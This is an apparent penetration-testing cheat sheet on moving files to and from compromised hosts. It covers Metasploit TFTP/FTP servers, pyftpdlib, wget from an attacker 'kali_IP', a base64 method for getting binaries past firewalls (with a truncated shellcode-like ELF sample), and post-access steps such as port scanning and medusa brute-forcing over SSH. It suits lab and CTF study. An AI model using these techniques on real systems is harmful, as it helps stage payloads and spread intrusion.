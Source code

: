 ```yaml
---
layout: default
title: Other Transfer
permalink: /other_transfer/
---
```


## TFTP

TFTP (Trivial File Transfer Protocol)	TFTP uses UDP for simple file transfers, commonly used by older Windows systems and others.

Use metaspoit framework:
```
use auxiliary/server/tftp
set srvhost 192.168.31.141
set tftproot /root/raj
run
```

```
tftp -i 192.168.31.219 GET ignite.txt
dir
```

## FTP

Use metasploit framework:
```
msfconsole -q
use auxiliary/server/ftp
set srvhost 192.168.31.141
set ftproot /root/raj
set ftpuser raj
set ftppass 123
run
```

```
ftp 192.168.31.141
dir
get ignite.txt
```
```
ftp ftp://$ftpuser:$password@localhost
```

```
python3 -m pyftpdlib -w -p 21 -u ignite -P 123
```

```
ftp 192.168.31.141
get ignite.txt
put C:\Users\raj\avni.txt
```

or:
`wget ftp://<kali_IP>:<Port_number>/<file> (-O /path/to/dir/<file>)`

# Expanding Attack Surface
After you gained access to e.g. SSH credentials (`ssh $user@$ip -p $port`), run `netstat` and `nmap` (`nmap localhost`) within the SSH session to list open ports. Then we can do some exploration to find potential usernames and run e.g. medusa within the SSH session. 

# Using Base64

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to base64 encode the file into base64 format, and then we can paste the base64 string on the remote server and decode it.

```
base64 binary_file -w 0
```
Then:
```
echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > file
```
# Validating
```
md5sum file
```

